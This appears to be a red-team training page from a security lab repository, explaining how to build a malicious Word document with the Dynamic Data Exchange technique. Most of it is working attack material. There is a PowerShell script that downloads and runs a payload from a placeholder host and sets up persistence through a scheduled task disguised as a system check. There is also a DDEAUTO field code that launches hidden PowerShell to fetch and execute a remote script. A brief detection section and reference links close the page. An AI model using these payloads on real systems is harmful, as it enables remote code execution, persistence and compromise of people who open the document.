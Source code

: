 # [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below and make edits as necessary.

   ```powershell
   $url = "<Malicious Payload download IP/URI>"
   $outpath = "C:\Program Files\WindowsPowerShell\exe.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 8am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Valid Schedule" -Description "This task verifies all functions are activated in valid order."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   ![pic](../../Resources/gifs/Insert_Tab.gif)

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="dog" width="800" height="60" title="dog">


6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.
---
## Detection Method

1. Investigate embedded code within `Microsoft Office` applications
Searching for `winword.exe` with the `/dde` flag in the command line should indicate a DDE execution. 

2. The `winword.exe` event PID should be the PPID of another process, demonstrating that this DDE flag launched another process (in our case, it launches powershell)


---
## Resources    
* https://www.securitysift.com/abusing-microsoft-office-dde/
* https://1337red.wordpress.com/using-the-dde-attack-with-powershell-empire/
* https://blog.2code-monte.co.uk/2021/03/17/creating-a-cyber-attack-part-9-making-a-malicious-word-document-using-dde-and-powershell/
